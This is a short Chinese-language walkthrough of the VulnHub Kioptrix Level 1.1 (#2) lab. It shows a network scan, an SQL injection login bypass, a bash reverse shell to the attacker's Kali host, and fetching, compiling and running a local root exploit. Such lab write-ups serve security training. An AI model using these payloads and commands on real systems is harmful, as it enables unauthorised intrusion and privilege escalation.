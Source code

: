 ```yaml
---
title: "VulnHub 23 Kioptrix: Level 1.1 (#2)"
date: 2025-04-08
tags: ["vulnhub", "linux"]
categories: walkthrough

---
```


https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

文件 Kioptrix_Level_2-update.rar

## 环境

| 名称                     | IP             |
| ------------------------ | -------------- |
| Kali Linux               | 192.168.11.132 |
| KIOPTRIX: LEVEL 1.1 (#2) | 192.168.11.128 |

```bash
$ sed -i '/^ethernet0/d' CentOs4.5.vmx
```

虚拟机人工添加网络适配器，配置nat网络后启动。

## 打点

```bash
└─$ sudo arp-scan -l
192.168.11.128  00:0c:29:15:9b:7c       (Unknown)
└─$ export rip=192.168.11.128
└─$ nmap $rip -p- --min-rate 10000
```

![](https://static.guyu.pro/VulnHub/23/20250408152803246.png)

访问http://192.168.11.128

![](https://static.guyu.pro/VulnHub/23/20250408153126134.png)

```bash
' or 1=1 or '
```

![](https://static.guyu.pro/VulnHub/23/20250408153243212.png)



![](https://static.guyu.pro/VulnHub/23/20250408153331987.png)

## apache

```
/bin/bash -i >& /dev/tcp/192.168.11.132/445 0>&1
```

![](https://static.guyu.pro/VulnHub/23/20250408153745749.png)

![](https://static.guyu.pro/VulnHub/23/20250408154241396.png)

## root

```
└─$ searchsploit -m 9545
```

![](https://static.guyu.pro/VulnHub/23/20250408154543845.png)

```
└─$ python -m http.server 80
```

![](https://static.guyu.pro/VulnHub/23/20250408154842650.png)

```bash
bash-3.00$ cd /tmp
bash-3.00$ wget http://192.168.11.132/9545.c
bash-3.00$ gcc -o 9545 9545.c
bash-3.00$ ./9545
```

![](https://static.guyu.pro/VulnHub/23/20250408154924203.png)